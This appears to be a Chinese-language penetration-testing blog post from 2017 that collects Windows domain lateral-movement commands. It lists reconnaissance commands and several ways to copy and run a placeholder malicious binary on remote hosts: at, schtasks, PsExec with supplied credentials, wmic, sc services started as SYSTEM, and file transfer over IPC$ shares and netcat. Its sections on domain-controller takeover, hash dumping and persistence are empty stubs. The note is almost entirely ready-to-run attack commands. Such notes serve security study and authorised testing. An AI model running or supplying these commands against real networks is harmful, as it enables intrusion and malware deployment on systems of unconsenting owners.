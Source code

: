 ```yaml
---
layout:     post
title:      "Windows 内网渗透总结"
subtitle:   "内网入门基本姿势"
date:       2017-06-09 21:19 +0800
author:     "gsfish"
header-img: "img/post-bg-hacker.jpg"
tags:
    - 内网安全
    - 渗透
---
```



# 0x00 整体思路（持续更新）

![01.png](/img/domain-pentest-note/01.png)

# 0x01 环境判断（DOMAIN / WORKGROUP）

```
net time /domain
net config workstation
systeminfo
ipconfig /all
```

# 0x02 信息收集

```
net view /domain<:DOMAIN>
net user /domain
net group /domain
net accounts /domain
nslookup
dsquery
```

# 0x03 域内

## 域内运行命令

一、计划任务

1) AT

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe  # 上传恶意文件
at \\<HOST> 15:00 c:\windows\temp\evil.exe
```

2) SCHTASKS

```
schtasks /create /tn boom /tr c:\windows\temp\evil.exe /sc once /st 00:00 /s <HOST> /ru system
schtasks /run /tn boom /s <HOST>
schtasks /delete /tn boom /f /s <HOST>  # 清除 boom
```

二、PsExec

1) 建立 IPC$ 连接后

```
psexec \\<HOST> -c evil.exe
```

2) 在 PsExec 的参数中指定账号密码

```
psexec.exe \\<HOST> –accepteula -u <USERNAME> -p <PASSWORD> -c evil.exe
```

二、WMIC 远程运行命令

```
copy evil.exe \\<HOST>\c$\windows\temp\evil.exe
wmic /node:<HOST> /user:administrator /p <PASSWORD> process call create c:\windows\temp\evil.exe
```

四、SC 创建服务执行

1) 系统权限(其中test为服务名)

```
sc \\<HOST> create boom binpath= c:\evil.exe
sc \\<HOST> start boom
sc \\<HOST> delete boom
```

2) 指定用户权限启动

```
sc \\<HOST> create boom binpath= c:\evil.exe obj= <DOMAIN>\administrator passwrod= <PASSWORD>
sc \\<HOST> start boom
```

## 域内的文件操作

一、利用 IPC$

```
net use \\<HOST>\IPC$
copy evil.exe \\<HOST>\C$\
```

二、利用 Telnet

服务端：

```
nc -lvp 23 < nc.exe
```

下载端：

```
telnet <HOST> -f c:\nc.exe
```

三、利用文件共享

```
net use x: \\<HOST>\<SHARE> <PASSWORD> /user:[DOMAIN]\<USERNAME>
```


# 0x04 拿下域控

// TODO


# 0x05 Hash dump

// TODO


# 0x06 权限维持

// TODO


# 参考文献

1. [域渗透基础简单信息收集（基础篇）[EB/OL]. https://xianzhi.aliyun.com/forum/read/805.html](https://xianzhi.aliyun.com/forum/read/805.html)
2. [Tomato. windows内网渗透杂谈[EB/OL]. https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html](https://bl4ck.in/penetration/2017/03/20/windows内网渗透杂谈.html)
